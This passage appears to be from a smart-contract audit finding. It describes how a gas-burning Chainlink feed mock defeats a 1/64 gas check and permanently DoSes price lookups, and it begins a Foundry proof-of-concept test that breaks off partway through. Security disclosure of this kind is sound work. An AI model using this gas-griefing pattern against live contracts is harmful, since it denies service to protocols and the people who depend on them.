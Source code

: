 
In that scenario, the 1/64 gas check would result as incorrect

And due to it, any call to the price feed would always result in a revert, permanently DOSSing the system

**Proof Of Concept**

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";


contract MockCLFeed {
    enum Behaviour {
        NORMAL,
        REVERT,
        GASGRIEF
    }

    Behaviour behaviour = Behaviour.NORMAL;

    function setBehaviour(Behaviour b) external {
        behaviour = b;
    }

    function latestRoundData() external view returns (
            uint80 roundId, int256 answer, uint256, /* startedAt */ uint256 updatedAt, uint80 /* answeredInRound */
        ) {
            
            if(behaviour == Behaviour.REVERT) {
                revert("No out of gas");
            }

            if(behaviour == Behaviour.GASGRIEF) {
                // Grief them, burn all gas
                uint256 i;
                while (true) {
                    i++;
                }
            }


            answer = 123;   
        }
    

}

contract PriceLibTester is Test {

    function getCurrentChainlinkResponse(MockCLFeed _aggregator)
        external
        view
        returns (int256 price)
    {
        uint256 gasBefore = gasleft();

        // Try to get latest price data:
        try _aggregator.latestRoundData() returns (
            uint80 roundId, int256 answer, uint256, /* startedAt */ uint256 updatedAt, uint80 /* answeredInRound */
```